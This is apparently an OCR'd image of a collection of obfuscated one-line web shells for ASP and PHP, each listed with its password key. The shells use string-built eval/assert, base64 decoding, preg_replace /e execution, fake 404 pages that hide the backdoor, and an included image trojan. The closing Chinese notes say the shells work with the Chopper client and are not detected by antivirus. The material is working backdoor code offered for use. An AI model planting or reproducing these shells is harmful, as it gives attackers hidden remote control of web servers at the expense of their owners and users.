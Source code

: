    <%
   dim a,b,temp,c
   a="eva@@l%20req@@uest%28%22helloxj%22%29"
   b=replace(a,"@@","零")
   c=split(b,"零")
   for i=0 to ubound(c)
   temp=temp+c(i)
   next
   execute(unescape(temp))
   %>
                        key:helloxj

   <%Y=request("shezhang")%><%execute(Y)%>
    
   <%eval(eval(chr(114)+chr(101)+chr(113)+chr(117)+chr(101)+chr(115)+chr(116))("shezhang"))%>
    
   <%eval""&("e"&"v"&"a"&"l"&"("&"r"&"e"&"q"&"u"&"e"&"s"&"t"&"("&"0"&"-"&"2"&"-"&"5"&")"&")")%>(密码是-7)

   php:
   <?php $a = base64_decode(Y.X.N.z.Z.X.J01);$a($_POST[g]);?>       key:g
   <?php $x_x=base64_decode(Y.X.N.z.Z.X.J01);$x_x(($_POST[$_GET[a]]));?>        key:the value of "a"
   <?php$a=str_replace(x,"","axsxxsxexrxxt");$a($_POST["shezhang"]);?>
    
   <?php$lang=(string)key($_POST);$lang($_POST['shezhang']);?>
    
   test<?php$k="ass"."ert";$k(${"_PO"."ST"}['nihao']);?>
    
   <?php $a="a"."s"."s"."e"."r"."t"; $a($_POST["shezhang"]); ?>
    
   <?php         
   @$_="s"."s"./*-/*-*/"e"./*-/*-*/"r";         
   @$_=/*-/*-*/"a"./*-/*-*/$_./*-/*-*/"t";         
   @$_/*-/*-*/($/*-/*-*/{"_P"./*-/*-*/"OS"./*-/*-*/"T"}         
   [/*-/*-*/0/*-/*-*/-/*-/*-*/2/*-/*-*/-/*-/*-*/5/*-/*-*/]);?>  密码是 -7
   <?php 
   if(!$_POST['nihao']){header('HTTP/1.1 404 Not Found'); exit(); }
   else{ $s="p"."r"."e"."g"."_"."r"."e"."p"."l"."a"."c"."e"; @$s("~[discuz]~e",$_POST['nihao'],"Access denied"); } ?>

   
   <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
   <html><head>
   <title>404 Not Found</title>
   </head><body>
   <h1>Not Found</h1>
   <p>The requested URL was not found on this server.</p>
   </body></html>
   <?php
   ($b4dboy = $_POST['nihao']) && @preg_replace('/ad/e','@'.str_rot13('riny').'($b4dboy)', 'add'); 
   header('HTTP/1.1 404 Not Found');
   ?>

   <?php
   include 'xxoo.jpg';
   ?>
   xxoo.jpg为一句话图片木马,此php后门中在win下菜刀连接只能看到木马所在盘符文件,
   其他盘符磁盘下文件默认在菜刀中不可加载,也看不到,但是可通过虚拟终端"dir 盘符:\"
   看到,对文件也有操作权限,在linux下可看到所有文件,该版本不被查杀
